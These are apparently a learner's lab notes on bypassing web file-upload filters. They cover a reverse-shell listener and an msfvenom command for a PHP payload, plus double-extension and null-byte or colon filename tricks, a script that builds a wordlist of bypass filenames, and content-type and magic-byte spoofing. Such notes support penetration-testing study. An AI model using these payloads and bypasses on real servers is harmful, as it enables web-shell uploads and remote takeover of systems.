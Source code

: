 PHP Reverse Shell Repository : https://github.com/pentestmonkey/php-reverse-shell

> While running the above reverse shell, we need to start the Netcat Listener : `nc -lvnp OUR_PORT`

Generating Custom Reverse Shell : `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`

## Client Side Validation
Use Burp Suite, on the front end, add a PNG File and then intercept this request and try to change the filename and add the payload in the body.

![[Pasted image 20250416175605.png]]

We can also remove the checkFile function present in the HTML, that would remove the Client Side Validation.

## Blacklisting Filters
**Fuzzing Extensions :**  To know what all files extensions are allowed we can simply use the BurpSuite and put a wordlist for it provided by Seclist.
![[Pasted image 20250416180959.png]]

## Whitelisting Filters
```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

If a web-server is using Filters like this, then we know here it is using Regex to check for the file type and we can surely trick the server for the file type.

## Double Extensions
The code only tests whether the file name contains an image extension; a straightforward method of passing the regex test is through `Double Extensions`. For example, if the `.jpg` extension was allowed, we can add it in our uploaded file name and still end our filename with `.php` (e.g. `shell.jpg.php`), in which case we should be able to pass the whitelist test, while still uploading a PHP script that can execute PHP code.
![[Pasted image 20250417125619.png]]

And if the Regex Pattern is something like this : 
```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ...SNIP... }
```
Then we can't use the above method.

## Character Injection
We can inject several characters before or after the final extension to cause the web application to misinterpret the filename and execute the uploaded file as a PHP script.

The following are some of the characters we may try injecting:

- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

Each character has a specific use case that may trick the web application to misinterpret the file extension. For example, (`shell.php%00.jpg`) works with PHP servers with version `5.X` or earlier, as it causes the PHP web server to end the file name after the (`%00`), and store it as (`shell.php`), while still passing the whitelist. The same may be used with web applications hosted on a Windows server by injecting a colon (`:`) before the allowed file extension (e.g. `shell.aspx:.jpg`), which should also write the file as (`shell.aspx`). Similarly, each of the other characters has a use case that may allow us to upload a PHP script while bypassing the type validation test.

**Custom Wordlist Bash Script**
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```
This will create a custom wordlist and then we can add that into the BurpSuite.

## Type Filters

```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```
According to this PHP Code, we can understand that 3 types of Content_Types are allowed :
- `image/jpg`
- `image/jpeg`
- `image/png`

``` bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```
By running these commands, we get a list of all Content-Types and we can brute-force them and check what types of files are actually getting filtered through.

## MIME-Type
`Multipurpose Internet Mail Extensions (MIME)` is an internet standard that determines the type of a file through its general format and bytes structure.

This is usually done by inspecting the first few bytes of the file's content, which contain the [File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) or [Magic Bytes](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime). For example, if a file starts with (`GIF87a` or `GIF89a`), this indicates that it is a `GIF` image, while a file starting with plaintext is usually considered a `Text` file. If we change the first bytes of any file to the GIF magic bytes, its MIME type would be changed to a GIF image, regardless of its remaining content or extension.

**Tip:** Many other image types have non-printable bytes for their file signatures, while a `GIF` image starts with ASCII printable bytes (as shown above), so it is the easiest to imitate. Furthermore, as the string `GIF8` is common between both GIF signatures, it is usually enough to imitate a GIF image.

Let's take a basic example to demonstrate this. The `file` command on Unix systems finds the file type through the MIME type. If we create a basic file with text in it, it would be considered as a text file, as follows:
```shell-session
ShibuShivansh@htb[/htb]$ echo "this is a text file" > text.jpg 
ShibuShivansh@htb[/htb]$ file text.jpg 
text.jpg: ASCII text
```

Now we just need to write that Magic Bytes according to our needs to make it look like a legit file type even if the extension is not actually whitelisted.

